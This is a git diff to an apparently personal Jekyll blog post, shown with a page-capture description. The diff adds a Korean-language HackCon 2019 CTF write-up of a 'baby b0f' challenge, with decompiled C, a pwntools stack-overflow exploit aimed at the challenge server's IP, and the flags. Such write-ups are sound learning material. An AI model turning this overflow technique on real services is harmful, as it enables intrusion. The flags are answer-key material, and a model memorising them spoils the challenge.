

Before and after one commit to realsung/realsung.github.io_backup, a Jekyll site: the page built from _posts/2019-8-24-2019hackcon.md, in a window 1280 px wide and 1400 px high, scrolled down 6721 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 7351 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update hackcon

````diff
--- a/_posts/2019-8-24-2019hackcon.md
+++ b/_posts/2019-8-24-2019hackcon.md
@@ -271,3 +271,53 @@ unsigned int __cdecl decrypt(char a1)
 **FLAG : `d4rk{23541326}c0de`**
 
 <br />
+
+# Pwnable
+
+## baby b0f
+
+간단한 bof문제
+
+```c
+int __cdecl main(int argc, const char **argv, const char **envp)
+{
+  char input[8]; // [rsp+2h] [rbp-Eh]
+  __int16 v5; // [rsp+Ah] [rbp-6h]
+  int v6; // [rsp+Ch] [rbp-4h]
+
+  alarm(30u);
+  setvbuf(stdout, 0LL, 2, 0LL);
+  setvbuf(stdin, 0LL, 2, 0LL);
+  setvbuf(stderr, 0LL, 2, 0LL);
+  v6 = 0xCAFEBABE;
+  *input = 0LL;
+  v5 = 0;
+  fgets(input, 256, stdin);
+  if ( v6 == 0xDEADBEEF )
+    system("cat ./flag.txt");
+  else
+    puts("Try Again");
+  return 0;
+}
+```
+
+두 변수 사이에 오프셋이 10 byte만큼 난다. 그래서 10byte dummy 넣어주고 0xDEADBEEF로 덮어서 `cat ./flag.txt` 를 실행할 수 있다.
+
+exploit.py
+
+```python
+from pwn import *
+
+# context.log_level = 'debug'
+
+p = remote('68.183.158.95',8989)
+e = ELF('./q1')
+
+payload = 'A' * 10
+payload += p32(0xDEADBEEF)
+p.sendline(payload)
+sleep(0.1)
+p.interactive()
+```
+
+**FLAG : `d4rk{W3lc0me_t0_th3_w0rld_0f_pwn}c0de`**
````
